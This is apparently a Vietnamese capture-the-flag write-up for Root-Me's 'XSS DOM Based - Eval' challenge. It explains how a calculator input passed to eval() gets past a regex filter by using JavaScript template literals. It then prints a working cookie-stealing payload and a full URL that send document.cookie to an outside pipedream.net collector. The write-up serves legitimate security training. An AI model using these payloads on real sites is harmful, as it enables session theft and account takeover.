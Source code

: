 # WRITE UP

## **Challenge:** [**XSS DOM Based - Eval**](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)

Bài này cần ta thực hiện chèn XSS vào một input tính toán và bị filter bởi regex: **/^\d+\[\\+|\\-|\\\*|\\/\]\d+/**

<img src="./media/image1.png" style="width:6.5in;height:3.36944in" alt="Graphical user interface, text, application, email Description automatically generated" />

Tuy vậy, sau khi fuzz thì thấy **eval()** cho phép thực thi phép toán **1+1asd:**

<img src="./media/image2.png" style="width:6.5in;height:2.69236in" alt="Graphical user interface, text Description automatically generated" />

Như vậy, hướng đi của ta là chèn vào ở đây. Ta có script của server:

*&lt;script&gt;*

*var result = eval(1+1asd);*

*document.getElementById('state').innerText = '1+1asd = ' + result;*

*&lt;/script&gt;*

Mọi thứ đều bị filter khi cố chèn script vào đây. Đến đây, sau khi mò về Javascript thì mọi thứ có thể giải quyết với template literals ([Template literals (Template strings) - JavaScript | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)). Template literals cho phép ta thực thi một command dưới dạng ưu tiên trước khi bị block (nếu có):

Thử chèn payload: **1+1\`${alert\`\`}\`**

<img src="./media/image3.png" style="width:6.5in;height:1.01389in" alt="A screenshot of a computer Description automatically generated" />

Và như vậy, ta có thể đính kèm DOM Based vào đây:

Payload: **1+1\`${document.location="https://eol9dtzbk9673pb.m.pipedream.net?c="+document.cookie}\`**

Sau 10 giây, ta nhận được HTTP request. Giờ thì chuyển qua tab Contact và send cho admin. Ta có payload như sau: [*http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B1\`${document.location=%22https://eol9dtzbk9673pb.m.pipedream.net?c=%22%2Bdocument.cookie}\`*](http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B1%60$%7bdocument.location=%22https://eol9dtzbk9673pb.m.pipedream.net?c=%22%2Bdocument.cookie%7d%60)

<img src="./media/image4.png" style="width:6.5in;height:2.39167in" alt="Graphical user interface, text, application Description automatically generated" />

HTTP Request nhận được sau một khoảng thời gian:

<img src="./media/image5.png" style="width:6.5in;height:2.35in" alt="Graphical user interface, text, application, email Description automatically generated" />

Done:

<img src="./media/image6.png" style="width:6.5in;height:3.85139in" alt="Graphical user interface, application Description automatically generated" />

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
